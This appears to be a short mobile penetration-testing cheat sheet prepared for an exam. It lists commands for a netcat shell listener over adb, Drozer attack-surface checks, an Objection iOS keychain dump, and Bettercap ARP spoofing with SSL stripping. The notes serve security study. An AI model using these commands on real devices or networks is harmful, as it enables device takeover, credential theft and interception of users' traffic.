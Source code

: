 # Reverse shell

  

```

adb shell "nc -lvp 4444 -e /system/bin/sh"  # Set up listener on device

```

### Mobile Exploitation Frameworks

```

# Using Drozer (Android)

drozer console connect --server 10.10.10.10  # Connect to agent

run app.package.list                         # List packages

run app.package.attacksurface com.example.app  # Check attack surface

  

# Using Objection (iOS)

objection -g com.apple.health explore

ios keychain dump                            # Dump iOS keychain

```

### Mobile MITM Attacks

```

# Bettercap for mobile interception

bettercap -iface wlan0

> set http.proxy.sslstrip true

> http.proxy on

> arp.spoof on

```

### Exam-Critical Notes:

  

- **ADB Port**: Always check TCP/5555 (default ADB port)
